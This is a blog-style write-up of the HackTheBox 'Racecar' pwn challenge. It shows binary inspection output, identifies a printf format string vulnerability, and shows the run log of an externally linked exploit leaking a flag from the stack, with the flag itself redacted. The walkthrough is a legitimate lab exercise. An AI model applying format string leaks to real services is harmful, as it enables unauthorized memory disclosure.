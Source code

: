```yaml
---
title: "Racecar"
date: 2022-09-20T15:03:31+01:00
draft: false
categories:
  - HackTheBox
---
```


Simple [pwn challenge](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/racecar/racecar) they said

```bash
└──╼ $file racecar
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

```bash
└──╼ $checksec racecar
[*] Checking for new versions of pwntools
    To disable this functionality, set the contents of /home/nair0lf32/.cache/.pwntools-cache-3.9/update to 'never' (old way).
    Or add the following lines to ~/.pwn.conf or ~/.config/pwn.conf (or /etc/pwn.conf system-wide):
        [update]
        interval=never
[*] You have the latest version of Pwntools (4.7.0)
[*] '/Racecar/racecar'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
It is an easy one they said!

```bash
(gdb) info function
All defined functions:

Non-debugging symbols:
0x00000618  _init
0x00000650  strcmp@plt
...

0x00000929  banner
0x00000b93  setup
0x00000c02  race_type
0x00000c91  car_menu
0x00001082  info
0x000011d2  car_info
0x00001352  menu
0x000013e1  main

...

(gdb) disassemble main
Dump of assembler code for function main:
...

```
There is a format string vulnerability in `printf()` in the `race_menu` function

the flag is right in the stack so [use this](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/racecar/exploit.py)

```bash
└──╼ $python exploit.py
[+] Opening connection to 138.68.129.154 on port 31614: Done
/Racecar/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline("Name")
[DEBUG] Sent 0x5 bytes:
    b'Name\n'
[DEBUG] Received 0x438 bytes:

...

b'\n[*] Waiting for the race to finish...\x1b[1;32m\n\n[+] You won the race!! You get 100 coins!\n[+] Current coins: [169]\x1b[1;36m\n\n[!] Do you have anything to say to the press after your big victory?\n> \x1b[0m'
[*] Switching to interactive mode
[DEBUG] Received 0x116 bytes:

...

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:
57d6f1c0170565b8d858152612565b996c57d6f1c057d6f340---FLAG: 0x7b4254480x5f7968770x5f6431640x34735f310x745f33760x665f33680x5f67346c0x745f6e300x355f33680x6b6334740x7d213f ---
[*] Got EOF while reading in interactive
$
```
Now [decode](https://github.com/nair0lf32/CTF-Scripts/blob/master/Hackthebox/racecar/decode.py)

```bash
└──╼ $python decode.py
b'HTB{'
b'HTB{why_'
b'HTB{why_d1d_'
b'HTB{why_d1d_1_s4'
...

b'HTB{SIKE_REDACTED_XD}\x00'
```
How easy that was!
